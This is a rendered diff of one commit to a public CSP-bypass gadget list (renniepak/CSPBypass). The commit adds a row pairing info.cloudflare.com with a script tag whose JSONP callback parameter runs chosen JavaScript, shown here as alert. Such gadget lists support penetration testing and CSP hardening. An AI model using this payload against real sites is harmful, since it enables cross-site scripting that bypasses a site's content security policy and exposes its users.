

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added info.cloudflare.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 165: info.cloudflare.com | <script src="https://info.cloudflare.com//index.php/form/getForm?munchkinId=194-VVC-221&form=1077&callback=alert"></script>
```
